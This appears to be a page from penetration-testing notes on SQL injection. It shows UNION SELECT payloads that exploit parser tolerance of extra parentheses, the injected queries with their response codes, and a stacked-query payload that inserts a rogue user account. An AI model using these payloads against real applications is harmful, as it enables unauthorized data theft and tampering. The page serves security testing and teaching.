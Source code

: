 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Other

## SQL Parser Tolerance

SQL parsers in many databases are **tolerant of extra parentheses**; they are treated as valid syntax even if they don't pair with opening parentheses. For instance, if we are testing an application that we have control of the `name` parameter and we infer that the query looks something like this:

```sql
SELECT id, name, description, price
FROM products
WHERE (name LIKE '%z%' AND active = true)
ORDER BY id ASC;
```

we can add one or more closing parentheses to account for extra nesting:

```sql
// payload
z')union+select+1,version(),3,4--+;
```

{% code overflow="wrap" %}
```sql
// results in 500
WHERE (name LIKE '%z')union+select+1,version(),3,4--+; AND active = true) ORDER BY id ASC;
```
{% endcode %}

```sql
// payload
z'))union+select+1,version(),3,4--+;
```

{% code overflow="wrap" %}
```sql
// results in 200
WHERE (name LIKE '%z'))union+select+1,version(),3,4--+; AND active = true) ORDER BY id ASC;
```
{% endcode %}

## Stacked Queries

Some RDBMS[^1]s can execute more than one query at a time: these queries are submitted simultaneously, but executed sequentially. An RDMS might execute only the first query while another execute only the last.

A common vector of exploiting stacked queries is to add, update, or delete data as these types of queries don't return results if successfully executed.

```sql
// payload
10; insert into users(id, username, password) values (1001,'hax','hax');
```

## Reading/Writing Files

* For PostgreSQL see [here](../../../../services/dbms/sql/postgresql-5432.md#read-write).
* For MySQL see [here](../../../../services/dbms/sql/mysql-3306.md#read-write).

## RCE

* For MSSQL see [here](../../../../services/dbms/sql/mssql-1433.md#rce).

[^1]: Relation Database Management System
